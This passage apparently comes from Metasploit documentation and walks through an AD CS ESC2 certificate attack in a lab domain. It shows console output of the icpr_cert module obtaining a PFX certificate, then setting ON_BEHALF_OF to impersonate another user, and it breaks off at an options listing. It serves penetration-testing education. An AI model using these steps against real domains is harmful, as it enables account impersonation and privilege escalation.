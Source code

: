```msf
   SMBUser        normaluser                   no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next, we need to use the PFX file that we got to request another certificate to authenticate on behalf of another user. We will use the `PFX` option to specify the PFX file, and the `ON_BEHALF_OF` setting to specify the user we would like to authenticate on behalf of. Finally we will change the certificate template to another certificate template that we are able to enroll in. The default `User` certificate should work here since it allows enrollment by any authenticated domain user.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
```